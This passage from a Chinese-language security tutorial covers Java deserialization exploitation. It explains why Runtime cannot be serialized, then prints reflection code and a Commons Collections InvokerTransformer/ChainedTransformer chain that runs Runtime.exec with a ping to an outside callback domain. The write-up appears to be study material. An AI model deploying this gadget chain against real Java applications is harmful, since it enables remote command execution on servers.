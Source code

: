 解决方案如下-->

1.针对第一个问题，是因为 Runtime 类没有继承 Serializable 接口，所以不能序列化

![alt text](image-67.png)

它没有去继承 Serializable 接口，但是在生成 Payload 的时候`new ConstantTransformer(Runtime.getRuntime())`这行代码就已经实例化了一个 Runtime 的对象，这种其实也是书写反序列化漏洞的习惯，大家习惯都先 new 出实例，然后去序列化，反序列化得到的就是实例，然后链子构造好，一条龙的执行即可。但是现在既然 Runtime 类不能序列化，而又想在反序列化的时候得到一个实例，那么就会想到反射，只需要在序列化的时候去序列化一个 Runtime 的 Class 对象即可，有 Class 对象就有办法去反射出 Runtime 的实例，而 Class 类是继承了 Serializable 接口的，所以可以序列化。

![alt text](image-68.png)

反射代码如下-->

```java
Class<?> clazz = Class.forName("java.lang.Runtime");
clazz.getMethod("exec",String.class).invoke(clazz.getMethod("getRuntime").invoke(clazz),"ping 6y7d5.cxsys.spacestabs.top");
```

把这个改成 InvokerTransformer 类的写法，代码如下，检验是否可行-->

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import java.util.HashMap;
import java.util.Map;

public class Example {
    public static void main(String[] args) throws Exception {
        Class<?> clazz = Class.forName("java.lang.Runtime");
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(clazz),
                new InvokerTransformer(
                        "getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}
                ),
                new InvokerTransformer(
                        "exec",
                        new Class[]{String.class},
                        new Object[]{"ping 6y7d5.cxsys.spacestabs.top"}
                )
        };
        Transformer chainedTransformer = new ChainedTransformer(transformers);

        HashMap<Object, Object> map = new HashMap<>();
        map.put(null, null);
        Map<Object, Object> transformedMap = TransformedMap.decorate(map, null, chainedTransformer);

        for (Map.Entry entry : transformedMap.entrySet()) {
            entry.setValue(null);
        }
    }
}
```
